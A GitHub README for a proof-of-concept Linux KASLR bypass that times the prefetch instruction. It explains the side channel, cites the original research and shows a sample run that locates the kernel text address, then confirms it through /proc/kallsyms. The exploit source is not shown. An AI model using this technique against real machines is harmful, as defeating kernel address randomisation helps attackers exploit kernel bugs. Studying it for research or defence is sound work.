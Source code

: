 KASLR bypass via prefetch side-channel
======================================

Note: dilettante implementation, better read [the original paper](https://gruss.cc/files/prefetch.pdf).

This is a proof-of-concept exploit for a KASLR bypass for the Linux kernel via timing the prefetch instruction.
Inspired by [a blogpost by Anders Fogh](http://dreamsofastone.blogspot.ru/2016/02/breaking-kasrl-with-micro-architecture.html).

The exploit works by measuring the time required to prefetch a particular address in the kernel space.
The idea is that a prefetch instruction is faster on virtual addresses which actually map to a page.
The used measuring approach is kind of best effort, but seems to be working.
See the source code for details.

The exploit was tested on a machine with Intel Core i7-4510 running Ubuntu 15.10 with 4.2.0-16-generic kernel and KASLR enabled.
Other setups might require other threshold values or a different number of measuring steps for the exploit to work.
I'd guess that it might not work at all for some CPUs.

Since [the KASLR for the Linux kernel is not really that random](https://lwn.net/Articles/569635/), the number of slots for the kernel text is quite limited, which allows to figure out the text location in a reasonable time.

Usage:
``` bash
$ python poc.py
0xffffffff80000000 0.8125
0xffffffff80000000 rejected
0xffffffff81000000 0.875
0xffffffff81000000 rejected
0xffffffff82000000 0.125
0xffffffff82000000 0.125
0xffffffff82000000 0.625
0xffffffff82000000 rejected
0xffffffff83000000 0.375
0xffffffff83000000 rejected
0xffffffff84000000 0.0625
0xffffffff84000000 0.0
0xffffffff84000000 0.0625
0xffffffff84000000 0.125
0xffffffff84000000 0.0625
0xffffffff84000000 rejected
0xffffffff85000000 0.25
0xffffffff85000000 0.0625
0xffffffff85000000 0.0
0xffffffff85000000 0.25
0xffffffff85000000 0.0625
0xffffffff85000000 rejected
0xffffffff86000000 0.875
0xffffffff86000000 rejected
0xffffffff87000000 0.875
0xffffffff87000000 rejected
0xffffffff88000000 0.375
0xffffffff88000000 rejected
0xffffffff89000000 0.125
0xffffffff89000000 0.9375
0xffffffff89000000 rejected
0xffffffff8a000000 0.3125
0xffffffff8a000000 rejected
0xffffffff8b000000 0.25
0xffffffff8b000000 0.1875
0xffffffff8b000000 0.875
0xffffffff8b000000 rejected
0xffffffff8c000000 0.5625
0xffffffff8c000000 rejected
0xffffffff8d000000 0.0
0xffffffff8d000000 0.0
0xffffffff8d000000 0.0
0xffffffff8d000000 0.0
0xffffffff8d000000 0.0
0xffffffff8d000000 accepted
the kernel is probably at 0xffffffff8d000000
```

You can confirm the kernel text address with:
``` bash
$ sudo cat /proc/kallsyms | grep 'T _text'
ffffffff8d000000 T _text
```

